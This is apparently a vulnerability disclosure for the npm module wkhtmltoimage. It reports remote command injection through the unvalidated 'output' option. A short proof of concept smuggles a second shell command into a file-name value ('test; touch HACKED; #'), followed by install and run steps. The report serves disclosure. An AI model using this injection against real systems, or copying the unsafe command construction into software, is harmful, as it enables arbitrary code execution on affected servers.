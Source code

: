 # Description

The `wkhtmltoimage` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# POC

1. Create the following PoC file:

```js
// poc.js
var wkhtmltoimage = require('wkhtmltoimage');
wkhtmltoimage.generate("test", {output:"test; touch HACKED; #"}, function(){});

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i wkhtmltoimage # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
